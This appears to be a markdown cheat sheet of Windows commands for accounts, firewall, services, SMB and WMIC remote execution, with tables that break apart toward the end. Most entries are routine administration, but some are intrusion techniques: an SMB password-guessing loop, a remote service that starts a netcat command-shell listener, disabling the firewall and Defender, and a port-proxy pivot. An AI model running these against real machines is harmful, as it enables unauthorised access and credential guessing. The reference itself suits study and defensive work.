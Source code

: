```yaml
---
title: Windows Commands
category: Misc
order: 4
---
```


>**Accounts and Privileges**

Topic | Command
------------- | -------------
Lauch with Admin Privs | ctrl+shift+enter 
SID | S-[revision level]-[authority level]-[domain/computer]-RID
Admin RID | 500
Guest RID | 501 
Users RID | 1001 and up
Add or Remove a User | net user [username] [password] /add or /del <br> termservice, telnet
Add or Remove user to a group | net localgroup [group] [username] /add or /del <br> Examples: <br> Remote Desktop Users, TelnetClients, Administrators
List Local Users | net user
List Groups | net localgroup
List Administrators | net localgroup administrators 
List Account Policy | net accounts or net accounts /domain
Password Guess | for /f %i in 9password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt
Run Progarm as another user | runas /u:fred "cmd /c echo Hello!", runas /smartcard "cmd /c echo Hello!"

>**Antivirus**

Topic | Command
------------- | -------------
Turn off Windows Defender | control /name Microsoft.WindowsDefender
Turn off Smart Screen | control /name Microsoft.ActionCenter

>**Inventory, File Search, and Counting**

Topic | Command
------------- | -------------
Count Lines | <code> type "file" | find /c /v "" </code>
Inventory Software | "dir /s ""c:\Program Files"" > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt" 
Display File Contents | type [file], type *.[ext], type [file1] [file2]
Search in FIle | <code> type [file] | find /i "[string]", type [file] | findstr [regex] </code>
See Environment Variables | set, set [variable_name] <br> Example: username, path
Search for File | dir /b /s [directory]\[file]  (use ^ to escape spaces) <br> Example: dir /b /s %systemroot%\hosts
Read Registry Key | reg query [keyName] 
Change Registry Key | reg add [KeyName] /v [ValueName] /t [type] /d [data]
Export Registry Keys | reg export [keyName] [filename.reg] 
Import Registry Keys | reg import [filename.reg]
Find a String  | find "[string]", findstr [regex]

>**Inventory, File Search, and Counting**

Network Activity | <code> netstat -na | find ":[port]"</code> 
DNS cahce | ipconfig /displaydns
Turn firewall off | netsh advfirewall set allprofiles state off
Firewall Rule | netsh advfirewall firewall add rule name="[name]" <br> dir=in action=allow remoteip=[yourIPaddress] protocol=TCP localport=[port number] <br> Example: 3389, 23
Delete Firewall Rule | netsh advfirewall firewall del rule name="[name]" 
Disable Firewall | netsh advfirewall set allprofiles state off 
Firewall Rule Registry | reg add HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /V 2000:TCP /T REG_SZ /F /D "2000:TCP:*:Enabled" 
View Firewall Configuration | netsh advfirewall show allprofiles 
Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code>
DNS Lookup | for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name"
 Netsh pivot | netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=[RPORT] connectaddress=[RHOST] 

>**Process and Services**

Install a service | "pkgmgr /iu:""[servicename]"" <br> dism /online /Enable-Features /FeatureName:TelnetServer"
List Running Services | sc query 
List All Services | sc query state= all
List Remote Services  | sc \\[targetIP] query
Check status of service | sc query [service name]
Start/Stop a service | sc start/stop [service name]
Change Startup type of service | sc config [servicename] start= demand (termservice, telnet)
Delete Service | sc delete [service name]
List Processes | tasklist
Kill a Process | taskkill /PID [process_ID] 

>**Remote Access, SMB, and WMIC**

See Current Privileges | whoami 
Windows null session | net use \\targetip "" /u:"" 
Establish an SMB session | net use \\[targetIP] [password] /u:[user]
Mount a Share on Target | net use * \\[targetIP]\[share] [password] /u:[user] <br> net use * \\[targetIP]\[share] [password] /u:[MachineName_or_Domain]\[user] 
Dropping SMB Session | "net use \\[targetIP] /del <br> net use * /del"
Remote Access, SMB, and WMIC | Run a Remote Command | sc \\[targetIP] create netcat binpath= "cmd.exe /k c:\tools\nc.exe -L -p cmd.exe | 
Remote Access, SMB, and WMIC | Turn on Remote Desktop / terminal services | reg add "hklm\system\currentcontrolset\control\terminal server" /v fdenysconnetions /t reg_dword /d 0 | 
Remote Access, SMB, and WMIC | Remote Registry  | Put \\[MachineName] before [KeyName] | 
Remote Access, SMB, and WMIC | WMIC Invoke Porgram | wmic /node:[targetIP] /user:[admin_user] /password:[password] process call create [command] | 
Remote Access, SMB, and WMIC | WMIC on Multiple Machines | /node:@[filename] - run a command on multiple machines listed in a file | 
Remote Access, SMB, and WMIC | WMIC Service Query | wmic services where (displayname like "%[whatever]%") get name | 
Remote Access, SMB, and WMIC | WMIC List Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process list brief | 
Remote Access, SMB, and WMIC | WMIC Kill Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process where name="[name]" delete or processID="[PID]" delete | 
Remote Access, SMB, and WMIC | WMIC Monitor Process | wmic process where name="[name]" list brief /every:1 | "nc.exe"
Remote Access, SMB, and WMIC | at (windows 7 and lower)(all commands at SYSTEM) | "net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> *sc \\[targetIP] start schedule* <br> at [\\targetIP] [HH:MM] [A|P] [command] <br> at \\[machine] [time] cmd /c ""[command]"" <br> at \\[targetIP} (*check status*)" | 
Remote Access, SMB, and WMIC | schtasksStart TIme - HH:MM:SSFrequency: MINUTE, HOURLY, DAILY, ONCE, ONSTART, ONLOGON, ONIDLE | "> net use \\[targetIP] [password] /u:[admin_user]
> sc \\[targetIP] query schedule (*make sure it is running*)
> *sc \\[targetIP] start schedule*
> schtasks /creat /tn [taskname] /s [targetIP] /u [user] /p [password] /sc [frequency]  /st [starttime] /sd [startdate] /tr [command]
> schtasks /query /s [targetIP]
>" | 
Remote Access, SMB, and WMIC | Simple Windows IIS Express Server | C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\tools /port:8001 | 
Scripting and Shell | Navigate History | F7 | 
Scripting and Shell | For Loops | "for /L %i in ([start], [step], [stop]) do [command]) 
*note: step of zero runs forever" | for /L %i in (1, 1, 255) do echo %i
Scripting and Shell | For Loops Iterate | for /F ["options"] %i in ([stuff]) do [command] | 
Scripting and Shell | Pause/Break | timeout /t 4 /nobreak | 
Scripting and Shell | Turn off command echo | @ | for /L %i in (1, 1, 255) do @echo %i
Scripting and Shell | Multiple Commands | & | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak
Scripting and Shell | Multiple Successful Commands | && | 
Scripting and Shell | Throw Away Output | >nul | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak > null
Scripting and Shell | Print Blank Line or Beap | echo., echo CTRL-G | 
Scripting and Shell | CR/LF (0d0a) | Windows use CR/LF as EOF characters. | 


